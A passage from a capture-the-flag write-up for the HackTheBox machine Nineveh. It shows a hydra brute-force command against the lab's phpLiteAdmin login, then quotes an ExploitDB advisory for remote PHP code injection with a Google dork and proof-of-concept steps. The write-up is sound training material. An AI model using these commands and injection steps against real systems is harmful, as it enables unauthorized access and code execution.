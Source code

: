 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2008:24:50.png)

In this case we'll need to perform a brute force. For that I'll use `hydra`

For that we need to see how the query works, in burp it's easy to see

We send one with an incorrect passsword

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2008:26:32.png)

Now we can mount our hydra query

```
-l --> login, not needed in this case. But hydra must need one.
-P --> wordlist used.
https-post-form --> it's https and post
"/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" --> It's the data we will send and the error message in the end
```

```sh
hydra nineveh.htb -l 0x4rt3mis -P /usr/share/wordlists/fasttrack.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2008:29:57.png)

And we have a password! Now we can just login on the webapp

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2008:30:45.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2008:30:55.png)

Now we start searching for exploits for this version of phpLiteAdmin

And we found this one, [ExploitDB](https://www.exploit-db.com/exploits/24044)

```
# Exploit Title: phpliteadmin <= 1.9.3 Remote PHP Code Injection Vulnerability
# Google Dork: inurl:phpliteadmin.php (Default PW: admin)
# Date: 01/10/2013
# Exploit Author: L@usch - http://la.usch.io - http://la.usch.io/files/exploits/phpliteadmin-1.9.3.txt
# Vendor Homepage: http://code.google.com/p/phpliteadmin/
# Vendor Status: Informed
# Software Link: http://phpliteadmin.googlecode.com/files/phpliteadmin_v1-9-3.zip
# Version: 1.9.3
# Tested on: Windows and Linux

Description:

phpliteadmin.php#1784: 'Creating a New Database' => 
phpliteadmin.php#1785: 'When you create a new database, the name you entered will be appended with the appropriate file extension (.db, .db3, .sqlite, etc.) if you do not include it yourself. The database will be created in the directory you specified as the $directory variable.',

An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

```